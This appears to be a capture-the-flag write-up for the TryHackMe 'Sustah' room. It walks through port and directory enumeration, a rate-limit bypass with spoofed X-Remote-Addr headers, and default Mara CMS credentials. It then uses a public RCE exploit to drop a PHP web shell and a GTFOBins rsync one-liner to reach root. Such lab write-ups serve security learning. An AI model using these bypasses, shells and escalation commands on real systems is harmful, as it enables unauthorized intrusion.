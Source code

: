 # 65 - Sustah (Http Rate Limit Bypass)

Room Link --> [https://tryhackme.com/room/sustah](https://tryhackme.com/room/sustah)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.212.70 -p- -sV -T4 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8085/tcp open  http    syn-ack Gunicorn 20.0.4
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70:8085/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/home
/ping
```
{% endcode %}

Opening HTTP service running on port 8085 we get a HTTP server that is also running runicorn meaning its a flask web application and it appears to be a gaming site

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*MfCJRRKRFkQIczS4FLW3Sw.png" alt="" height="378" width="700"><figcaption></figcaption></figure>

I tried to bruteforce the number but there is a rate limiting feature.

The answer headers look like that:

<figure><img src=".gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### HTTP Rate Limit Bypass

Check hacktricks for a bypass method.

```bash
# tried all..
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

# but only this worked:
X-Remote-Addr: 127.0.0.1
```

They are gone now..

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So forward the request to intruder to bruteforce the Numbers.

The hint displayed \*\*\*\*\* 5 stars, so the logical move is to start from 10000.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
/YouGotTh3P@th
```

Navigating to the path:

So this didn't work --> [http://10.10.212.70:8085/YouGotTh3P@th](http://10.10.212.70:8085/YouGotTh3P@th)

But this worked --> [http://10.10.212.70/YouGotTh3P@th/](http://10.10.212.70/YouGotTh3P@th/)

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So Mara CMS. Googling the exploit for this CMS, and found an authenticated RCE exploit.

Enumerating dirs and files for this CMS

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70/YouGotTh3P@th/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -x txt,html,php,py,ini,db,sql -b 403,500,404

/index.php
/blog
/about.php
/css
/template
/log
/theme
/changes.txt
/plugin
```
{% endcode %}

### Initial Access

We got the version: Mara 7.5

The default credentials worked: `admin : changeme` .

Using this [exploit](https://www.exploit-db.com/exploits/48780)

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Files saved to: /var/www/html/YouGotTh3P@th/img

So i navigated to : [http://10.10.212.70/YouGotTh3P@th/img/shell.php](http://10.10.212.70/YouGotTh3P@th/img/shell.php) and got shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The hint says look for backup files, there is a backups dir in /var, we found kiran password in a `.bak.passwd` .

`kiran : trythispasswordforuserkiran` .

And we su into Kiran acct.

### Priv Esc to root

After linpeas had finished running i found out that kiran could run rsync as the root user without providing the root’s password. This was a misconfiguation on it’s own

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*xobiL0zUULtjH4RsFiKEUw.png" alt="" height="63" width="700"><figcaption></figcaption></figure>

Looking at GTFOBins there is a way we could get a shell using rsync

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*AwTha1sZZUGB4oMZuBhNIg.png" alt="" height="121" width="700"><figcaption></figcaption></figure>

So i tried executing the command as kiran user

The command was

```
doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*GstFkXKsXBTC78xRZpZmyw.png" alt="" height="70" width="700"><figcaption></figcaption></figure>

Done!

